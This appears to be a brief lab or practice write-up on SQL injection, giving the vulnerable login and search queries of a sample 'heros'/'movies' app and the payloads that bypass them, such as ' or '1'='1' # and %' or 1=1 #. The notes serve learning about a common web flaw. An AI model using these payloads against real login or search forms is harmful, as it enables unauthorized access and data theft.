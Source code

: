 SQL injection

Hero form : 
```
select * from heros where username = ''  AND password = ''
```
Solution : we have to pass the sql to be always true
```
username : 'or '1'='1' # 
 ==> select * from heros where username = ''or '1'='1' # '  AND password = '' ==> true
```
Solution 2
```
username: 'or '1'='1
password: 'or '1'='1
select * from heros where username = ''or '1'='1  AND password = ''or '1'='1' ==> true and true
```
GET/search
```
select * from movies where name like  '%%'
```
```
Solution
%'or 1=1 # attention a space 
```
